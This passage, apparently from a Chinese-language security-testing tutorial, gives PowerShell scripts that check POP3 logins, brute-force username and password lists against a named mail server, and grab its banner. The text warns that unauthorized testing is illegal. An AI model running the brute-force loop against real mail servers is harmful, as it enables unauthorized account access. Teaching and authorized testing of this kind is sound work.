 ```
    if ($response -match "OK") {
        Write-Host "Authentication succeeded." } else {
        Write-Host "Authentication failed." }
    $popClient.Close()
} catch {
    Write-Host "Connection to POP server failed." }
```

该脚本与 POP 服务器建立连接，尝试使用提供的凭据进行身份验证，并检查响应。如果响应中包含 `"OK"`，则说明身份验证成功。否则，表示失败。

## 暴力破解

评估服务器抵抗暴力破解攻击的能力非常重要。可以使用 PowerShell 来模拟暴力破解尝试。但需要注意的是，在没有适当授权的情况下暴力破解服务器是非法且不道德的。进行此类测试之前，务必确保获得明确的许可。以下是一个简化的示例：

```
 $popServer = "pop.snowcapcyber.com"
$port = 110
$users = "ajcblyth", "jsmith", "pdavies"
$passwords = "password1", "password2", "password3"
foreach ($user in $users) {
    foreach ($password in $passwords) {
        try {
            $popClient = New-Object System.Net.Sockets.TcpClient($popServer, $port)
            $popStream = $popClient.GetStream()
            $popReader = New-Object System.IO.StreamReader($popStream)
            $popWriter = New-Object System.IO.StreamWriter($popStream)
            $popWriter.WriteLine("USER " + $user)
            $popWriter.WriteLine("PASS " + $password)
            $popWriter.WriteLine("QUIT")
            $response = $popReader.ReadToEnd()
            if ($response -match "OK") {
                Write-Host "Brute force succeeded. User: $user, Password: $password"
                $popClient.Close()
                Break }
            $popClient.Close()
        } catch {
            Write-Host "Connection to POP server failed."         }  } }
```

在这个示例中，脚本尝试使用各种用户名和密码组合来检查是否成功认证。请记住，这是一个模拟示例，仅供教育目的使用，在没有适当授权的情况下不应使用。

## 横幅抓取

横幅抓取是通过从服务横幅中获取信息来了解服务器的版本和配置。PowerShell 可以帮助提取这些信息。以下是一个示例：

```
 $popServer = "pop.snowcapcyber.com"
$port = 110
try {
    $popClient = New-Object System.Net.Sockets.TcpClient($popServer, $port)
    $popStream = $popClient.GetStream()
    $popReader = New-Object System.IO.StreamReader($popStream)
    $banner = $popReader.ReadLine()
    Write-Host "Banner: $banner."     $popClient.Close()
} catch {
Write-Host "POP Connection failed."}
```

